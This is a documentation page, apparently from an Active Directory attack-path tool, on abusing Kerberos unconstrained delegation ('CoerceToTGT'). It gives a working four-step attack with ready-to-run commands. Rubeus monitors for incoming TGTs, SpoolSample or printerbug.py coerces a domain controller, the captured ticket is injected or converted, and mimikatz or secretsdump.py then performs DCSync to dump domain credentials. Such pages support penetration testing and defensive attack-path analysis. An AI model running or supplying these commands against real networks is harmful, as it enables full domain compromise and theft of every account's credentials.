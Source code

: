 ---
title: CoerceToTGT
description: "The computer/user account is configured with Kerberos unconstrained delegation."
---

<Frame>
  <img src="/hc/images/image-2-1.png"/>
</Frame>


In a standard Kerberos authentication process, when a principal accesses a Kerberos-enabled service, they present a service ticket to the service host (a computer or service account). This ticket cannot be used to authenticate against other services. However, if a computer or service account is trusted for unconstrained delegation, the principal sends their full Kerberos Ticket Granting Ticket (TGT). This TGT can be forwarded, allowing the service host to impersonate the principal across other services within the environment.

An attacker can coerce a Tier Zero computer (e.g. DC) to authenticate against the account and obtain the target's TGT. With the TGT of a DC, the attacker can perform DCSync to compromise the domain. Alternatively, the TGT can be used to obtain admin access to the target host with a shadow credentials + silver ticket attack or a resource-based constrained delegation attack.

Accounts marked as sensitive or belonging to the Protected Users group are protected against the attacks as they will not send their TGTs to accounts with unconstrained delegation enabled.

## Abuse Info

A common way for attackers to abuse unconstrained delegation is for the attacker to coerce a DC using the printspooler.

The attack will fail if the target is a member of Protected Users or marked as sensitive, as the TGT of those principals will not be sent to the principal with unconstrained delegation. You can find all the protected principals with this Cypher query:

```bash
MATCH (g:Group)
WHERE g.objectid ENDS WITH "-525"
MATCH (n:Base)
WHERE n.sensitive = TRUE OR (n)-[:MemberOf*..]->(g)
RETURN n
LIMIT 1000
```

There are many other coercion techniques than printspooler that can be used (see References).

The instructions provided here are for abusing a computer with unconstrained delegation. For abuse of a user, see [Abusing Users Configured with Unconstrained Delegation](https://exploit.ph/user-constrained-delegation.html).

**Step 1: Start monitoring for TGTs**

Log in on the computer configured with unconstrained delegation and open CMD as Administrator.

Start monitoring for incoming TGTs using Rubeus:

```bash
Rubeus.exe request monitor /user:<target DC DNS name> /interval:5 /nowrap
```
**Step 2: Coerce target DC**

From any host in the domain, coerce the target DC using printspooler.

Windows:

```bash
SpoolSample.exe <target DC DNS name> <compromised computer DNS name>
```
Linux:

```bash
printerbug.py '<domain>/<username>:<password>'@<target DC IP> <compromised computer IP>

```

Rubeus will print the DC TGT as it is received.

**Step 3: Pass the Ticket**

Windows:

Inject the DC TGT into memory using Rubeus on any computer in the domain:

```bash
Rubeus.exe ptt /ticket:doIFvjCCBbqgAwI...
```

Linux:

Save the TGT base64 blob as a .kirbi file:

```bash
echo "doIFvjCCBbqgAwI..." | base64 -d | tee ticket.kirbi > /dev/null
```

Convert the TGT to ccache format using ticketConverter.py:

```bash
ticketConverter.py ticket.kirbi ticket.ccache
```

Set the KRB5CCNAME environment variable to the ticket's path:

```bash
export KRB5CCNAME=$path_to_ticket.ccache
```

**Step 4: DCSync target domain**

Windows:

Use mimikatz to DCSync the domain from the computer where the DC TGT was injected:

```bash
lsadump::dcsync /domain:<domain.name> /user:<DOMAIN\targetuser>
```
Linux:

Use secretsdump.py to DCSync the target domain:

```bash
secretsdump.py -k -just-dc-user <DOMAIN/targetuser> <target DC DNS name>
```

## Opsec Considerations

There is no opsec information for this edge.

## References

[Not A Security Boundary: Breaking Forest Trusts](https://posts.specterops.io/not-a-security-boundary-breaking-forest-trusts-cd125829518d)
[Hunting in Active Directory: Unconstrained Delegation & Forests Trusts](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)
[Abusing Users Configured with Unconstrained Delegation](https://exploit.ph/user-constrained-delegation.html)
[(RBCD) Resource-based constrained](https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd)
[Windows Coerced Authentication Methods](https://github.com/p0dalirius/windows-coerced-authentication-methods)
[Rubeus](https://github.com/GhostPack/Rubeus)
[SpoolSample](https://github.com/leechristensen/SpoolSample)
[mimikatz](https://github.com/gentilkiwi/mimikatz)
[printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)
[ticketConverter.py](https://github.com/fortra/impacket/blob/master/examples/ticketConverter.py)
[secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)
